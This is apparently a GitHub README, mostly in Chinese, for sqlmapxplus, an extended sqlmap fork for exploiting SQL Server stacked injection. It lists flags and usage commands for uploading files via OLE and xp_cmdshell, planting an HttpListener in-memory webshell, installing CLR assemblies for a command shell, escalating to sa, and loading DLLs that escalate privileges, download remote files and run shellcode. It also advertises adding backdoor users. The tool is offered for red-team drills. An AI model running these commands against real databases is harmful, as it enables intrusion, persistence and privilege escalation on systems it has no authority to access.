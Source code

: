 ## sqlmapxplus

### 简介

在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。

sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。

1. **20250121更新说明**：
   更新工具的交互方式、
   更新CLR注入利用方式
   
3. 针对实际网络过程中dll传输损失导致clr安装失败的问题
   更新CLR落地加载功能（需要落地dll）和一键数据库CLR加载功能（无需落地dll）根据场景选择合适的注入方法、
   临时增加 --check-file 选项判断dll文件是否成功落地目标主机、
   临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功、
   需要注意的是 --check-file 和 --check-clr 选项存在判断不准确的问题，仅供参考
   实践过程中可能受url编码等影响，会到账注入利用失败

5. 为什么使用上传过程中会出现dll放大的问题
   转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍，ole文件上传极限为20kb

6. 自定义clr的问题（已完成）
   install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
   clr_shell模式下执行clr函数的方式修改为： 用户自定义function 传入参数（已完成）

### Update

```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr1      install clr1
--install-clr2      install clr2
--clr-shell         clr shell 
--to-sa             current db to sa
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 
```

![image](https://github.com/co01cat/SqlmapXPlus/assets/63174234/b6252bc9-6a8d-4804-a203-ed5d33fae141)

### Usage

**文件操作功能**:

```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```

**CLR相关的功能**

```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader​
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl
```


### 其他

公众号：赛博大作战

知识星球：渗透测试宝典

旧版本的参考链接：https://mp.weixin.qq.com/s/nTYPKnl9XQLWhZ43sQV3xw

新版本的参考链接：https://mp.weixin.qq.com/s/6RpxXitEPt8rA1DFb56Oxw

### References

https://github.com/sqlmapproject/sqlmap 

https://github.com/uknowsec/SharpSQLTools

https://github.com/Anion3r/MSSQLProxy

https://mp.weixin.qq.com/s/X0cI85DdB17Wve2qzCRDbg

https://yzddmr6.com/posts/asp-net-memory-shell-httplistener/
